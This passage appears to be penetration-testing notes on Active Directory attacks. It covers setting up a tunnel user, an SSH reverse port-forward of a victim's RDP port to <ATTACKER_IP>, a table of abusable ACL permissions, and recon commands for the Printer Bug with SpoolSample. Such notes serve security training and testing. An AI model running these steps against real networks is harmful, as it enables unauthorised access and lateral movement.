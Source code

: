 ```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

1. Forward RDP port (or whatever port it may be) to attack box:

```powershell
ssh tunneluser@<ATTACKER_IP> -R 3389:<RDP_MACHINE>:3389 -N
```

## Common Misconfigurations

### Access Control Entry (ACE)

- element in an access control list (ACL)
- ACEs is a permission granted to control or monitor access to an object
- can often be misconfigured and grant too much access

**********************Common ACEs**********************

| ACE | Description |
| --- | --- |
| ForceChangePassword | Set user’s password without needing current password |
| AddMembers | Add user to group (including own user) |
| GenericAll | Complete control over object including changing password |
| GenericWrite | Update parameters of object (could for example be used to change the scriptPath parameter of an object to execute a malicious script) |
| WriteOwner | Change owner of target object |
| WriteDACL | Write new ACEs to target object’s DACL (Discretionary Access Control List - used to specify who can access a resource) |
| AllExtendedRights | Perform any action with extended rights on target object  |

## Printer Bug

- bug (called a feature by Microsoft) that allows domain user to force a target to authenticate to arbitrary host

Can be exploited under the following conditions:

1. Have access to valid AD credentials.
2. Have network connectivity to target SMB service.
3. Target host has Print Spooler service running.
    - check if service is running: `GWMI Win32_Printer -Computer <TARGET_HOST>`
    - can also use: `Get-PrinterPort -ComputerName <TARGET_HOST>`
4. Target host has SMB signing not enforced. 
    - check if SMB signing is enforced: `nmap --script=smb2-security-mode -p445 <TARGET_HOST>`
- use [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit this bug

# Detection
